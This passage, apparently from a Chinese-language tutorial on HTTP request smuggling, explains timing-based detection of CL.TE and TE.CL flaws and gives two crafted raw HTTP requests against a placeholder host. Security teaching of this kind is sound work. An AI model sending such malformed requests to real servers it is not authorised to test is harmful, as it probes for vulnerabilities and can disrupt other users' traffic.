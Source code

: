 ![1594912328](http%E8%B5%B0%E7%A7%81/1594912328.png)

需要`\r\n\r\n`在后面加上尾随序列`0`。

## 4、查找HTTP请求走私漏洞

### 4.1 使用计时技术查找HTTP请求走私漏洞

检测HTTP请求走私漏洞的最普遍有效方法是发送请求，如果存在漏洞，该请求将导致应用程序响应中的时间延迟。

#### 4.1.1 使用计时技术查找CL.TE漏洞

如果应用程序容易受到请求走私的CL.TE变体的攻击，则发送如下所示的请求通常会导致时间延迟：

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

由于前端服务器使用`Content-Length`标头，因此它将仅转发此请求的一部分，而忽略`X`。后端服务器使用`Transfer-Encoding`标头，处理第一个块，然后等待下一个块到达。这将导致明显的时间延迟。

#### 4.1.2 使用计时技术查找TE.CL漏洞

如果应用程序容易受到TE.CL变种的请求走私攻击，则发送如下所示的请求通常会导致时间延迟：

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
